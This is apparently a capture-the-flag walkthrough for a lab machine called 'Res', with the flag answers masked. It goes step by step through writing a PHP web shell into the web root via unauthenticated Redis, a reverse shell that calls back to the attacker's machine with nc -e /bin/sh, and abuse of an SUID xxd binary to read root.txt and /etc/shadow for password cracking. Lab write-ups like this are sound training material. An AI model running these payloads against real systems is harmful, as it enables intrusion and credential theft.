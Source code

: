# Res

- Scan the machine, how many ports are open?

	- `scilla port -target <TARGET_IP>`
	- `*`

- What's is the database management system installed on the server?

	- `Redis`

- What port is the database management system running on?

	- `****`

- What's is the version of management system installed on the server?

	- `nc -v <TARGET_IP> <PORT>`
	- `info`
	- `*.*.*`

- Compromise the machine and locate user.txt

	- `nc -v <TARGET_IP> <PORT>`
	- `config set dir /var/www/html/`
	- `config set dbfilename info.php`
	- `set test "<?php phpinfo(); ?>"`
	- `save`
	- Navigate to `http://<TARGET_IP>/info.php`
	- On your machine `nc -lnvp 4444`
	- On target `config set dir /var/www/html/`
	- `config set dbfilename shell.php`
	- `set test "<?php sytem($_GET['cmd']); ?>"`
	- `save`
	- Navigate to `http://<TARGET_IP>/shell.php?cmd=nc%20<YOUR_IP>%20<PORT>%20-e%20/bin/sh`
	- `id`
	- `cd /home/vianka`
	- `cat user.txt`
	- `*******************************`

- Escalate privileges and obtain root.txt

	- Using [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)
	- `xxd` with SUID bit set.
	- Go on GTFObins and search for SUID xxd.
	- `sudo sh -c 'cp $(which xxd) .; chmod +s ./xxd'`
	- `LFILE=/root/root.txt`
	- `./xxd "$LFILE" | xxd -r`
	- `/usr/bin/xxd "$LFILE" | xxd -r`
	- `********************`

- what is the local user account password?

	- Use the above `xxd` abuse against `/etc/shadow`
	- Then copy only the vianka line of shadow and passwd and paste them inside two files.
	- `unshadow passwd shadow > passwords.txt`
	- `john passwords.txt`
	- `**********`

